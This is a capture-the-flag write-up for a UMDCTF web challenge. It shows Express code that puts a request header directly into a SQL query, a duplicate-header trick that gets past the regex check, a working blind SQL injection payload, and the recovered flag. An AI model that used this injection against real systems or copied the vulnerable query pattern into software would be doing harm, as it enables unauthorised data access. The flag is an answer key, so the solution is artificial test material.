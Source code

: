 # Solution

We can query for flag using `x-steve-supposition` header but only allows alphabets, numbers plus curly brackets. 

```
const rows = await db.all(`SELECT * FROM flag WHERE value = '${req.get("x-steve-supposition")}'`);

  // 🧪 Validation de la structure de la supposition : uniquement des caractères honorables
    if (!/^[a-zA-Z0-9{}]+$/.test(steveHeaderValue)) {
        return res.status(403)
```

Website regex only check the latest `x-steve-supposition` header, so we can have two same headers, one for the blind sql, another one that can satisfy the regex.

Can use Burp or Python script to automate. Search for response 200.

```
X-Steve-Supposition: ' OR SUBSTR((SELECT * FROM flag LIMIT 1), 1, 7) = 'UMDCTF{' -- 
X-Steve-Supposition: l

HTTP/2 200 OK
Access-Control-Allow-Origin: *
Content-Type: text/html; charset=utf-8
Date: Sun, 27 Apr 2025 04:24:45 GMT
Etag: W/"d-DPtoqvEp5otIj4FHsGx6Sh2Z5RM"
X-Powered-By: Express
Content-Length: 13

Tu as raison!
```

Flag: `UMDCTF{ile5TVR4IM3NtTresbEAu}`


Solved by: arifpeycal
